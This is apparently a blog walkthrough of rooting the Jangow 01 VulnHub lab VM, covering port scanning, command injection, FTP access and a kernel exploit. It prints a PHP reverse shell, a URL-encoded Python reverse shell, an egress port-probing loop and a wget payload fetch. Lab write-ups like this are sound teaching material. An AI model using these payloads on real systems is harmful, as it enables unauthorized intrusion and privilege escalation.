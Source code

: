 ```yaml
---
title: "Jangow 01 -VulnHub"
date: 2025-04-22 14:00:00 +0200
categories: VulnHub
tags: [Kernel-exploits, privilege-escalation, rooted-command-injection, jangow01]
toc: true
comments: true
image: ./assets/img/attachments/jangow.png
imageNameKey: jangow
---
```

Yo! Back again with another VulnHub walkthrough — this time we’re diving into _Jangow: 01_. Let’s get rootin’! 💥
This is my second writeup 2/1000
## Recon

![w](/assets/img/attachments/jangow-1.png)

First step was making sure that the machine is reachable, lets START.
Now, As always we'll run an Nmap scan on all ports to see which services are exposed — this will help us decide where to dig deeper.

`sudo masscan -p1-65535 192.168.56.118`

![w](/assets/img/attachments/jangow-2.png)

Then we will use nmap to do full scan on those two open ports

`nmap 192.168.56.118 -Pn -sV -sC -p80,21`
![w](/assets/img/attachments/jangow-3.png)
![w](/assets/img/attachments/jangow-4.png)
![w](/assets/img/attachments/jangow-5.png)

This how the website looked like, after taking a deep look on the functionality of this website and when i clicked on buscar i found this 
## Exploiting vulnerability

![w](/assets/img/attachments/jangow-6.png)
![w](/assets/img/attachments/jangow-7.png)

Command Injection!

![w](/assets/img/attachments/jangow-8.png)

After some investigation and enumeration, I discovered a file that initially appeared to contain the user's password. However, it didn’t work for login, so I assumed it might just be the user flag instead.
I then attempted to gain a reverse shell by setting up a listener on my machine, but none of the payloads I tried were successful. 
So, I decided to go back to discover more files on the machine. I ran web content discovery from the beginning using

`ffuf -u http://192.168.56.118/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2
`
![w](/assets/img/attachments/jangow-9.png)

I couldn't access the content of the file directly, but since there is a command injection vulnerability, I plan to open the file from there.
Got nothing from the browser (I think the file is being rendered)

![w](/assets/img/attachments/jangow-10.png)
![w](/assets/img/attachments/jangow-11.png)

But curl got it, now i will try to gain access with password using ftp (the second open port)
## Initial Access

![w](/assets/img/attachments/jangow-12.png)
I tried both usernames and i logged in with jangow01 !
Since I have access to FTP, I will try to get a shell to proceed to the next step. To do this, I attempted to see if I can upload files to the directory I'm currently in.

![w](/assets/img/attachments/jangow-13.png)

I couldn't, so i thought of changing the directory I'm currently in to /home/jangow01

![w](/assets/img/attachments/jangow-14.png)

And it was uploaded successfully!

```php
<?php
$sock=fsockopen("192.168.246.128",4444);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
I tried to upload this shell and trigger it buy running curl command

`curl "http://192.168.56.118/site/busque.php?buscar=php+/home/jangow01/shell.php"`

But it didn't work, I did troubleshooting for the file i uploaded before
![w](/assets/img/attachments/jangow-15.png)

And couldn't view its content

![w](/assets/img/attachments/jangow-16.png)

Maybe that’s why PHP couldn’t open the file. To solve this, I granted it execute permission.

`chmod 755 /home/jangow01/shell.php`

![w](/assets/img/attachments/jangow-17.png)

Even though, I didn't got the shell, I tried several methods but couldn't get it. 
I tested if i opened http server on my machine would the target machine send any requests to me

`http://192.168.56.118/site/busque.php?buscar=wget+http:/192.168.246.128:8000/hello.txt`

I didn't receive any connection, so I believe there's a firewall blocking outgoing connections — which is likely why I wasn't able to get a reverse shell. Now, I need to identify which ports are not blocked. I used the following script to test that:
```python
# listener.py

import socket

import threading

  

ports = [21, 22, 23, 25, 53, 80, 110, 139, 143, 161, 443, 587, 993, 995, 3306, 3389]

  

def handle_conn(port):

    sock = socket.socket()

    sock.bind(("0.0.0.0", port))

    sock.listen(1)

    print(f"[+] Listening on port {port}")

    conn, addr = sock.accept()

    print(f"[!] Connection received on port {port} from {addr}")

    conn.close()

    sock.close()

  

for port in ports:

    threading.Thread(target=handle_conn, args=(port,), daemon=True).start()

  

input("Press Enter to exit...\n")
```

The script uses threading to start listeners on the most commonly guessed outbound ports. On the vulnerable parameter, we initiate these connections using `telnet` with the following payload:

`http://192.168.56.118/site/busque.php?buscar=echo%20%27QUIT%27%20|%20for%20i%20in%20$(seq%201%201024);%20do%20echo%20%22Porta%20$i%20==%3E%22;%20timeout%20--signal=9%202%20telnet%20192.168.56.1%20$i;echo%20%22Port%20$i%20%3C==%22;%20done;`

decoded:
`http://192.168.56.118/site/busque.php?buscar=echo 'QUIT' | for i in $(seq 1 1024); do echo "Porta $i ==>"; timeout --signal=9 2 telnet 192.168.56.1 $i; echo "Port $i <=="; done;`

and then we got this!

![w](/assets/img/attachments/jangow-18.png)

Which tell us that port 443 isn't blocked for outgoing traffic by the firewall, by running 
`which python3`
![w](/assets/img/attachments/jangow-19.png)

I confirmed python3 is installed, next i used this reverse shell command

`http://192.168.56.118/site/busque.php?buscar=/usr/bin/python3%20-c%20%27import%20socket;%20import%20subprocess;%20import%20os;%20s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);%20s.connect((%22192.168.56.1%22,443));%20os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);%20subprocess.call([%22/bin/bash%22,%20%22-i%22])%27`

![w](/assets/img/attachments/jangow-20.png)

And voilà! We got a connection. 🎉
## Privilege Escalation
we’ll start gathering information about the system itself, beginning with displaying detailed system information. But while doing this manually i will run linpeas at the background

`uname -a `

![w](/assets/img/attachments/jangow-21.png)

![w](/assets/img/attachments/jangow-22.png)

Upon researching the version, a known vulnerability was identified that could potentially be exploited.

![w](/assets/img/attachments/jangow-23.png)

linpeas output too

![w](/assets/img/attachments/jangow-24.png)

Now i will upload the exploit to the machine using the same python server.

`http://192.168.56.118/site/busque.php?buscar=wget+http://ip:443/47170.c`

![w](/assets/img/attachments/jangow-25.png)

After making sure that gcc is installed, will compile the exploit

`gcc 47170.c -o exploit`

![w](/assets/img/attachments/jangow-26.png)

I moved to /tmp since i didn't have the write permission on /site directory

![w](/assets/img/attachments/jangow-27.png)

It's Ok 😢, we will try another exploit

![w](/assets/img/attachments/jangow-28.png)

Will go with this one, 

![w](/assets/img/attachments/jangow-29.png)

![w](/assets/img/attachments/jangow-30.png)

And Finallyyy!! rooted!

![w](/assets/img/attachments/jangow-31.png)

Rooted it. Another one bites the dust. 🏴‍☠️ see u soon!
